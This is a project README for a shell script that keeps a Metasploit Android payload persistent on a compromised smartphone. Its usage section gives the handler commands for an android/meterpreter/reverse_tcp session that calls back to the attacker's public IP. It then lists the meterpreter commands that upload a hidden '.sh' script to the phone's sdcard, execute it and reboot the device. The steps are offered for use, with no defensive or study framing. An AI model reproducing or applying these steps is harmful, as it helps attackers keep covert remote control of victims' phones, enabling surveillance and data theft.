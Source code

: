 # MSF PERSISTANCE ANDROID

## INDEX

- [MSF PERSISTANCE ANDROID](#msf-persistance-android)
  - [INDEX](#index)
  - [BADGES](#badges)
  - [INTRODUCTION](#introduction)
  - [PREREQUISITES](#prerequisites)
  - [USE](#use)
  - [LICENSE](#license)

## BADGES

[![pipeline status](https://gitlab.com/oda-alexandre/msf-persistance-android/badges/master/pipeline.svg)](https://gitlab.com/oda-alexandre/msf-persistance-android/commits/master)

## INTRODUCTION

This script allows the persistence of the payload on Android smartphone with Metasploit.

## PREREQUISITES

Use [Metasploit](https://www.metasploit.com/)

## USE

1 - Put the msf-persistance-android.sh script in your personal folder and rename .sh

2 - Open MSF

```use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost YOUR IP PUBLIC
set lport THE PORT OF YOUR CHOICE
exploit
```

3 - Copie/Paste in a terminal in shell MSF with a session android/meterpreter/reverse_tcp

```cd /
cd sdcard
upload ~/.sh
shell
cd /
cd sdcard
sh .sh
reboot
exit
```

## LICENSE

[![GPLv3+](http://gplv3.fsf.org/gplv3-127x51.png)](https://gitlab.com/oda-alexandre/msf-persistance-android/blob/master/LICENSE)
